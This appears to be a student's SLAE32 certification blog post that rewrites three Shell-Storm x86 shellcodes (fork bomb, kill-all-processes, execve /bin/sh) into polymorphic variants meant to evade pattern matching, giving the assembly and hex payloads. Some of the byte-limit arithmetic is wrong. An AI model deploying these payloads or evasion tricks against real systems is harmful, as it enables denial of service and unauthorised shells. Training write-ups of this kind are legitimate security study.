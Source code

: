 ```yaml
---
layout: single
title: polymorphic
date: 2020-7-04
classes: wide
header:
  teaser: /images/polymorph.jpg
tags:
  -SLAE
--- 
```


## Introduction
Hello Everyone!
This blog post is dedicated to Assignment 6 of the SLAE32 Exam, which is to create 3 different polymorphic shellcodes from shell-storm.


<p align="center"> 
<img src="https://raw.githubusercontent.com/NagliNagli/naglinagli.github.io/master/images/polymorph.jpg">
</p>

## Assignment 6 - Creating polymorphic shellcodes from Shell-Storm


There are 2 main instructions provided to us in this assignment:
- [ ] Pick 3 shellcode samples from Shell-Storm and create polymorphic versions of them to beat pattern matching
- [ ] The polymorphic version cannot be larger than 150% of the existing shellcode

The 3 payloads which i have decided to focus on are:

- [ ] x86/forkbomb
- [ ] x86/killps
- [ ] x86/execve_bin/sh 

## forkbomb Shellcode

In computing, a fork bomb is a denial-of-service attack wherein a process continually replicates itself to deplete available system resources, slowing down or crashing the system due to resource starvation.

![forkbomb](/images/forkbomb.png)

The original shellcode length is 7 bytes, and is presented below:

```c
"\x6a\x02\x58\xcd\x80\xeb\xf9"
```

The original forkbomb.nasm code:

```c
/* By Kris Katterjohn 8/29/2006
 *
 * 7 byte shellcode for a forkbomb
 *
 *
 *
 * section .text
 *
 *      global _start
 *
 * _start:
 *      push byte 2
 *      pop eax
 *      int 0x80
 *      jmp short _start
 */
```

I have decided to change the code to the following:

```c
section .text

    global _start

_start:
	xor eax, eax
	inc eax
	inc eax
        push eax
   	pop eax
      	int 0x80
        jmp short _start
```

Now , i have to check my new shellcode length, and to see that i didn't exceed the req's of 150% maximum (which is >=11)

The new shellcode:
```c
\x31\xc0\x40\x40\x50\x58\xcd\x80\xeb\xf6
```

Which is as we can see 10 bytes long, now let's check if the fork bomb still work's properly.

![polyfork](/images/polyfork.png)

And it is indeed working! we can see how the CPU is being flooded to 100% usage!

## killps Shellcode

The following shellcode will kill all running process within the system.

The original shellcode length is 11 bytes, and is presented below:

```c
 "\x31\xc0\xb0\x25\x6a\xff\x5b\xb1\x09\xcd\x80" 
```

The original killps.nasm code:

```c
Title  : kill all running process 
Name   : 11 bytes sys_kill(-1,9) x86 linux shellcode
Date   : may, 31 2010
Author : gunslinger_
Web    : devilzc0de.com
blog   : gunslingerc0de.wordpress.com
tested on : ubuntu linux
*/
#include <stdio.h>

char *killer=
 "\x31\xc0"                    /* xor    %eax,%eax */
 "\xb0\x25"                    /* mov    $0x25,%al */
 "\x6a\xff"                    /* push   $0xffffffff */
 "\x5b"                        /* pop    %ebx */
 "\xb1\x09"                    /* mov    $0x9,%cl */
 "\xcd\x80"                    /* int    $0x80 */
```

I have decided to change the code to the following:

```c
section .text

    global _start

_start:
	sub eax, eax
	mov al, 0x23
	inc al
	inc al
	push 0xffffffff
	pop ebx
	mov cl, 0x9
	int 0x80
```

Now , i have to check my new shellcode length, and to see that i didn't exceed the req's of 150% maximum (which is >=17)

The new shellcode:
```c
"\x29\xc0\xb0\x23\xfe\xc0\xfe\xc0\x6a\xff\x5b\xb1\x09\xcd\x80"
```

Which is as we can see 15 bytes long, now let's check if the killps shellcode still work's properly.

![killps](/images/killps.gif)

And it is indeed working! we can see how we are being kicked out frm the system

## execve /bin/sh

The following shellcode will execbute /bin/sh.

The original shellcode length is 23 bytes, and is presented below:

```c
 ""\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"; 
```

The original execve.nasm code:

```c
xor    %eax,%eax
push   %eax
push   $0x68732f2f
push   $0x6e69622f
mov    %esp,%ebx
push   %eax
push   %ebx
mov    %esp,%ecx
mov    $0xb,%al
int    $0x80
```

I have decided to change the code to the following:

```c
global _start

section .text

_start:
	sub eax, eax
	push eax
	push 0x68732f2f
	push 0x6e69622f
	mov ebx, esp
	inc eax
	dec eax
	push eax
	push ebx
	mov ecx, esp
	mov al, 0xa
	inc al
	int 0x80
```

Now , i have to check my new shellcode length, and to see that i didn't exceed the req's of 150% maximum (which is >=17)

The new shellcode:
```c
""\x29\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x40\x48\x50\x53\x89\xe1\xb0\x0a\xfe\xc0\xcd\x80""
```

Which is as we can see 27 bytes long, now let's check if the execve shellcode still work's properly.

![27execve](/images/27execve.png)

And it is indeed working! we can see how we are executing the /bin/sh!

And that's it for the sixth assignment!

## References

* forkbomb explanation - 
* forkbomb - <https://en.wikipedia.org/wiki/Fork_bomb>
* killps - <http://shell-storm.org/shellcode/files/shellcode-626.php>
* execve_bin/sh - <http://shell-storm.org/shellcode/files/shellcode-827.php>

## Wrap-Up
This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification

<https://www.pentesteracademy.com/course?id=3>

Student ID: SLAE - 1543

All the source code which i have used throughout the assignment is available here: <https://github.com/NagliNagli/SLAE/tree/master/Polymorphic>

Cheers,
Gal.
